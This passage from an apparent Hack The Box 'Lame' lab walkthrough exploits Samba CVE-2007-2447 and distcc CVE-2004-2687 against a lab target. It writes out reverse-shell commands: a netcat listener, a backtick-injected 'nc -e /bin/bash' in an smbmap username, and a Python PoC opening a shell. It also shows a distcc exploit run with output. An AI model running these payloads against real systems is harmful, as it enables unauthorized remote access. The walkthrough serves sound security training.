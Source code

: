 Because port 6200 is not open, then we don't have a backdoor in Lame server.

### CVE-2007-2447

[*Poc code here*](https://github.com/leecybersec/walkthrough/tree/master/hackthebox/lame)

<a href='https://wiki.jacobshodd.com/writeups/hack-the-box/lame#exploitation' target="blank">Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution</a>. The payload execute command \` in the username.

Create a listener in Kali machine.

``` bash
sudo nc -nvlp 4444
```

Get reverse shell

```bash
smbmap -u '/=`nc -e /bin/bash 10.10.14.4 4444`' -H 10.10.10.3

python3 samba_rce_CVE-2007-2447.py 10.10.10.3 'nc -nv 10.10.14.5 443 -e /bin/sh'
```

![](images/5.png)

### CVE-2004-2687

[*Poc code here*](https://github.com/leecybersec/walkthrough/tree/master/hackthebox/lame)

Based on nmap script, I identify distcc-cve2004-2687 and search the public exploit <a href='https://gist.github.com/DarkCoderSc/4dbf6229a93e75c3bdf6b467e67a9855' target="blank">DistCC Daemon - Command Execution (Python)</a>

Execute payload with ping command

```
┌──(Hades㉿10.10.14.4)-[1.5:16.3]~
└─$ python distccd_rce_CVE-2004-2687.py -t 10.10.10.3 -p 3632 -c "ping -c 2 10.10.14.4"
[OK] Connected to remote service

--- BEGIN BUFFER ---

PING 10.10.14.4 (10.10.14.4) 56(84) bytes of data.
64 bytes from 10.10.14.4: icmp_seq=1 ttl=63 time=235 ms
64 bytes from 10.10.14.4: icmp_seq=2 ttl=63 time=234 ms

--- 10.10.14.4 ping statistics ---
2 packets transmitted, 2 received, 0% packet loss, time 1005ms
rtt min/avg/max/mdev = 234.636/235.127/235.618/0.491 ms


```